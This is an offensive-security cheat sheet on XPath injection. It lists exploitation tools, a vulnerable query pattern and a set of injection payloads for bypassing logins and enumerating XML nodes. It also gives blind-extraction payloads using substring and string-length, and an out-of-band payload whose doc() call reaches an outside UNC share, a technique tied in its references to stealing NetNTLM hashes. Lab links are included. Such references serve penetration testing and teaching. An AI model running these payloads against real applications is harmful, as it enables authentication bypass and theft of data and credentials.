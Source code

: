 # XPATH Injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Blind Exploitation](#blind-exploitation)
    * [Out Of Band Exploitation](#out-of-band-exploitation)
* [Labs](#labs)
* [References](#references)

## Tools

- [orf/xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool


## Methodology

Similar to SQL injection, you want to terminate the query properly: 

```ps1
string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())
```

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

### Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```

2. Access a character with `substring`, and verify its value the `codepoints-to-string` function
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```


## Labs

* [Root Me - XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath injection - String](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)


## References

- [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
- [XPATH Injection - OWASP - January 21, 2015](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))